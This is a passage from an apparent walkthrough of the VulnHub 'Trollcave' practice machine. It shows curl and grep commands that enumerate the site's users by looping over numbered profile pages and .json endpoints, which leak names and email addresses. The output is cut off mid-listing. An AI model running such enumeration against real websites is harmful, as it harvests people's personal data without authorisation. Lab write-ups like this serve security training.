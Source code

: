 Enumerate the users:
When we do
```
curl -s http://192.168.251.9/users/1
<ol class='user-blogs'><li class='blog-excerpt' id='blog-7'>
<img class="user_avatar" src="/uploads/King/crown.png" alt="Crown" width="80" height="80" />
<h1><a href="/blogs/7">Welcome to the TrollCave!</a></h1>
<div class='author'>
by
__<a href="/users/1">King</a>__
</div>
<p><p>The Trollcave is a community blogging website for people with a sense of humour. As long as you&#39;re not an idiot, we&#39;re very friendly. Registration is free, so <a href="/register">what are you waiting for</a>?...</p>
</p>
```
Thus for all users
```
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/users/{1..20} | grep -v 'href\|doesn' | grep -Po 'h1>.{2,}</h1' | sort -u

h1>anybodyhome's page</h1
h1>artemus's page</h1
h1>coderguy's page</h1
h1>cooldude89's page</h1
h1>dave's page</h1
h1>dragon's page</h1
h1>Ian's page</h1
h1>kev's page</h1
h1>King's page</h1
h1>MrPotatoHead's page</h1
h1>notanother's page</h1
h1>onlyme's page</h1
h1>Q's page</h1
h1>Sir's page</h1
h1>teflon's page</h1
h1>TheDankMan's page</h1
h1>xer's page</h1
```
Another way round this is:
```
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/users/{1..20}.json

h1>xer's page</h1
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/users/{1..20}.json
{
  "id": 1,
  "name": "King",
  "email": "king@trollcave.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.494Z",
  "updated_at": "2020-05-01T06:40:12.220Z"
}{
  "id": 2,
  "name": "dave",
  "email": "david@32letters.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.617Z",
  "updated_at": "2020-05-01T06:40:12.238Z"
}{
  "id": 3,
  "name": "dragon",
  "email": "dragon@trollcave.com",
  "password": null,
  "created_at": "2017-10-23T09:39:41.710Z",
```